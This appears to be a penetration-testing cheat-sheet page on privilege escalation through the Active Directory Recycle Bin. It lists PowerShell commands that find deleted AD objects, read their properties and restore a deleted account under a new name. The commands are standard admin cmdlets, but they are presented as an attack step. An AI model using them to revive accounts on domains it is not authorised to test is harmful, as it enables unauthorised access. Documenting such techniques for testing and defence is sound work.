 ```yaml
---
title: "AD Recycle Bin"
date: 2024-7-13
tags: ["ad recycle bin", "active driectory", "ad", "Windows"]
---
```


### Privesc #1: Restore deleted AD account

{{< tab set1 tab1 active >}}Windows{{< /tab >}}
{{< tabcontent set1 tab1 >}}

#### 1. Import AD module

```console
import-module activedirectory
```

#### 2. Query all deleted objects within domain

```console
Get-ADObject -filter 'isDeleted -eq $true -and name -ne "Deleted Objects"' -includeDeletedObjects
```

#### 3. Get all details for the deleted account

```console
Get-ADObject -filter { SAMAccountName -eq <DELETED_USER> } -includeDeletedObjects -property *
```

#### 4. Restore the deleted account

```console
# Rename the target account to avoid user exists error
Restore-ADObject -Identity <OBJECT_GUID> -NewName '<NEW_USER>' -TargetPath 'CN=Users,DC=<EXAMPLE>,DC=<COM>'
```

{{< /tabcontent >}}
